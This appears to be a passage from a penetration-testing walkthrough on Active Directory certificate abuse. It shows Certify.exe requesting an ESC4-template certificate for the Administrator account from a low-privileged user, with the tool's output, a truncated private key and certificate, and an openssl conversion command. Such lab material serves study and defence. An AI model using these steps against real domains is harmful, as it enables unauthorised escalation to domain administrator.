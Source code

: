 ### Domain Escalation
Now we can issue authentication purpose certificates with high privileged domain account by using the ESC4 certificate template.
At first, we request a high privileged domain account certificate with `Certify.exe`:

```
C:\Tools>Certify.exe request /ca:ca01.contoso.local\contoso-ca01-ca /template:ESC4 /altname:Administrator@contoso.local

   _____          _   _  __
  / ____|        | | (_)/ _|
 | |     ___ _ __| |_ _| |_ _   _
 | |    / _ \ '__| __| |  _| | | |
 | |___|  __/ |  | |_| | | | |_| |
  \_____\___|_|   \__|_|_|  \__, |
                             __/ |
                            |___./
  v1.0.0

[*] Action: Request a Certificates

[*] Current user context    : CONTOSO\david
[*] No subject name specified, using current context as subject.

[*] Template                : ESC4
[*] Subject                 : CN=David, CN=Users, DC=contoso, DC=local
[*] AltName                 : Administrator@contoso.local

[*] Certificate Authority   : ca01.contoso.local\contoso-ca01-ca

[*] CA Response             : The certificate had been issued.
[*] Request ID              : 24

[*] cert.pem         :

-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEA3hjP7WuFNVeHYRtKvsZzYBdZ1sshFXuZ5sWc/cByci3hw+KD

--snip--

zMvpKPu7qAMxd83cnK0YDJW6JHHdJYfJKEkDOGKRLmKy3pAVmZGrhA==
-----END RSA PRIVATE KEY-----
-----BEGIN CERTIFICATE-----
MIIGATCCBOmgAwIBAgITYAAAABhIrlHkiGiNxAAAAAAAGDANBgkqhkiG9w0BAQsF

--snip--

zilBjRs=
-----END CERTIFICATE-----


[*] Convert with: openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx



Certify completed in 00:00:03.8813593

C:\Tools>
```
